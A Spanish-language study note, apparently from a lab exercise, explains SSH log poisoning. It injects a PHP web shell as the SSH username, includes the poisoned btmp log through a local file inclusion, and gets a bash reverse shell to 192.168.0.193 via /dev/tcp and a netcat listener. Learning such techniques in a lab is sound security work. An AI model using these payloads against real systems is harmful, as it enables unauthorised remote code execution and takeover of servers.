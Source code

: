 --------
# Explotación Log Poisoning: SSH

Para envenenar los Logs de autenticación de un **SSH**, se puede hacer de la siguiente manera, intentando atentar contra el *auth.log* y si no contra el *btmp*.

- Colocaremos como propietario y grupo a *www-data* en los archivos *btmp* y *auth.log* con ``chown www-data:www-data btmp``

Primero a modo de prueba en la terminal **estaremos dentro del contenedor** en el directorio */var/log/* para ver el comportamiento del archivo *btmp*, luego en otra terminal enviaremos un intento de conexión por **SSH** hacia la **IP del contenedor**.
Ahora revisaremos el archivo *btmp* para ver **si quedó registrado nuestro intento de conexión** por SSH.

==ANTES DE ENVENENAR LOS LOGS, ES IMPORTANTE SABER QUE UN ERROR PUEDE LLEGAR A CORROMPER EL ARCHIVO Y DEJANDOLO NO FUNCIONAL, POR LO TANTO HAY QUE TENER CUIDADO CON LO QUE COLOCAMOS==

![[LogP 7.png]]

Como vimos que **quedó registrado el intento de conexión**, ya sabemos lo que podemos hacer, intentar **inyectar código malicioso**.

- ``ssh <?php system($_GET["cmd"]); ?>@172.17.0.2``

Ahora si pudiésemos listar el contenido el archivo *btmp* a través del **LFI**, con el parámetro ``&cmd=`` en la URL podríamos ejecutar comandos, como por ejemplo una **Reverse Shell** colocándonos en escucha con ``nc nlvp 1234``

- ``http://localhost/index.php/?filename=/var/log/btmp&cmd=bash -c "bash -i >%26 /dev/tcp/192.168.0.193/1234 0>%261"``

![[LogP 8.png]]

Y de esta forma ya tendríamos un **RCE con una bash interactiva**, solo faltaría aplicar tratamiento para que sea mas cómodo manipularla.




